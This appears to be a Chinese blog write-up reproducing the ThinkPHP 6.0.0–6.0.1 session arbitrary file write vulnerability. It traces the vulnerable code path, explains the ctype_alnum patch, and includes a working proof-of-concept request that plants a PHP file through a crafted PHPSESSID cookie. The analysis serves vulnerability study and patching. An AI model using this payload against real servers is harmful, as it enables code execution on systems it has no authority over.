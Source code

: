 categories:
- cve复现
tags:
- cve复现
title: ThinkPHP6 任意文件操作漏洞分析
---
# ThinkPHP6 任意文件操作漏洞分析

## 利用条件

1. ThinkPHP6.0.0-6.0.1
2. 开启Sessoin中间件

## 漏洞复现

官方commit: https://github.com/top-think/framework/commit/1bbe75019ce6c8e0101a6ef73706217e406439f2 

复现环境为:phpstudy+thinkphp6.0.1

`\app\controller\index.php`:

```php
<?php
namespace app\controller;

use app\BaseController;
use think\facade\Session;
class Index extends BaseController
{
    public function index($name)
    {
        Session::set('name', $name);
        return 'hello,' . Session::get('name');;
    }
    
}
```



`\app\middleware.php`

```php
<?php
// 全局中间件定义文件
return [
    // 全局请求缓存
    // \think\middleware\CheckRequestCache::class,
    // 多语言加载
    // \think\middleware\LoadLangPack::class,
//     Session初始化
     \think\middleware\SessionInit::class
];
```





根据漏洞的信息(任意文件操作),我们从`vendor\topthink\framework\src\think\session\Store.php` 的`save`函数开始进行分析

```php
public function save(): void
    {
        $this->clearFlashData();//清除原来的数据

        $sessionId = $this->getId();

        if (!empty($this->data)) {
            $data = $this->serialize($this->data);

            $this->handler->write($sessionId, $data);
        } else {
            $this->handler->delete($sessionId);
        }

        $this->init = false;
    }
```

跟进`$this->handler->write`方法看一下

```php
public function write(string $sessID, string $sessData): bool
    {
        $filename = $this->getFileName($sessID, true);
        $data     = $sessData;

        if ($this->config['data_compress'] && function_exists('gzcompress')) {
            //数据压缩
            $data = gzcompress($data, 3);
        }

        return $this->writeFile($filename, $data);
    }
```

再跟进`$this->writeFile`

```php
protected function writeFile($path, $content): bool
    {
        return (bool) file_put_contents($path, $content, LOCK_EX);
    }
```

因为`$data`可控,那么我们只要能控制`$path`我们就可以写shell进去了

而`$path`由`$this->getFileName($sessID, true);`得到

跟进去

```php
	protected function getFileName(string $name, bool $auto = false): string
    {
        if ($this->config['prefix']) {
            // 使用子目录
            $name = $this->config['prefix'] . DIRECTORY_SEPARATOR . 'sess_' . $name;
        } else {
            $name = 'sess_' . $name;
        }

        $filename = $this->config['path'] . $name;
        $dir      = dirname($filename);

        if ($auto && !is_dir($dir)) {
            try {
                mkdir($dir, 0755, true);
            } catch (\Exception $e) {
                // 创建失败
            }
        }

        return $filename;
    }
```

`$filename`直接由末端拼接参数`$name`

而`write`调用`getFileName`时直接将参数`$sessID`传入,`$sessID`由`$sessionId = $this->getId();`获得

```php
	public function getId(): string
    {
        return $this->id;
    }
```

`$this->id`时通过`setId()`来设置的

```php
	public function setId($id = null): void
    {
        $this->id = is_string($id) && strlen($id) === 32 ? $id : md5(microtime(true) . session_create_id());
    }
```

如果`is_string($id) && strlen($id) === 32 `满足,则直接将`$id`的值赋给`$this->id`

查找调用setId的函数

![image3070](https://i.loli.net/2020/02/01/cAes3Wot8BFbkjP.png)

其中`SessionInit`

```php
	public function handle($request, Closure $next)
    {
        // Session初始化
        $varSessionId = $this->app->config->get('session.var_session_id');
        $cookieName   = $this->session->getName();

        if ($varSessionId && $request->request($varSessionId)) {
            $sessionId = $request->request($varSessionId);
        } else {
            $sessionId = $request->cookie($cookieName);
        }

        if ($sessionId) {
            $this->session->setId($sessionId);
        }
	}
```

查找配置发现`$sessionId`=>`$_COOKIE['PHPSESSID']`

因此构造payload

```
http://127.0.0.1/tp/public/index.php?s=/index/index/&name=%3C?php%20phpinfo();?%3E

Cookie :PHPSESSID=9f7777c08f3909751b148338ba08.php

访问http://127.0.0.1/tp/runtime/session/sess_9f7777c08f3909751b148338ba08.php
```



## 补丁分析

```php
public function setId($id=null):void
{
    $this->id = is_string($id) && strlen($id) === 32 && ctype_alnum($id) ? $id : md5(microtime(true) . session_create_id());
}
```

在`setId`中增加了对`$id`的校验:`ctype_alnum($id)`,只允许数字或字母,来避免任意文件操作



## 参考

 https://paper.seebug.org/1114/#_1 